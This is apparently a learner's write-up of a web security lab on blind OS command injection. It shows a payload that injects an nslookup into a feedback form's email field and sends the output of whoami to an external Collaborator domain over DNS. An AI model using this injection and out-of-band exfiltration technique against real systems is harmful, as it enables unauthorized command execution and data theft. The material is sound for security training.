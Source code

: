 *This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.*

Submitted a feedback and sent the request from *Proxy* to *Repeater*. 

I decided to inject a payload to perform a DNS lookup and output the contents of `whoami` to the *Collaborator* server. My payload is as such:
`|| nslookup `whoami.`67bxhm1wtd0hs2mjsw8qghrfp6vxjn7c.oastify.com &`
I URL encoded the payload and injected it at each client input, checking the polls in *Collaborator*:
![Screenshot 2024-05-09 at 1.26.38 PM](images/Screenshot%202024-05-09%20at%201.26.38%20PM.png)
Injecting the payload at the `email` input triggered a DNS lookup as seen below. 
![Screenshot 2024-05-09 at 1.34.26 PM](images/Screenshot%202024-05-09%20at%201.34.26%20PM.png)
Submitting the string appended to the *Collaborator* server URL solves the lab!

